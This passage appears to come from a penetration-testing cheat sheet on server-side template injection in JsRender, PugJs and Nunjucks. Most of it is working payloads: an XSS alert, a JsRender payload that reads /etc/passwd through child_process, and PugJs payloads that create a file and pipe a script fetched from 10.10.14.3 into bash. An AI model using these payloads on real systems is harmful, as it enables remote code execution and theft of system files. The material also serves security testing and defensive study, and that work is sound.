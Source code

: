 - = 49
 

**Client Side**



```
{{:%22test%22.toString.constructor.call({},%22alert(%27xss%27)%22)()}}
```

**Server Side**



```
{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /etc/passwd').toString()")()}}
```

**More information**

- [https://appcheck-ng.com/template-injection-jsrender-jsviews/](https://appcheck-ng.com/template-injection-jsrender-jsviews/)
 

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#pugjs-nodejs)

PugJs (NodeJS)

- `#{7*7} = 49`
 
- `#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('touch /tmp/pwned.txt')}()}`
 
- `#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad("child_process").exec('curl 10.10.14.3:8001/s.sh | bash')}()}`
 

**Example server side render**



```
var pugjs = require('pug');
home = pugjs.render(injected_page)
```

**More information**

- [https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/](https://licenciaparahackear.github.io/en/posts/bypassing-a-restrictive-js-sandbox/)
 

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks)

NUNJUCKS (NodeJS)

- {{7*7}} = 49
 
- {{foo}} = No output
 
- #{7*7} = #{7*7}
 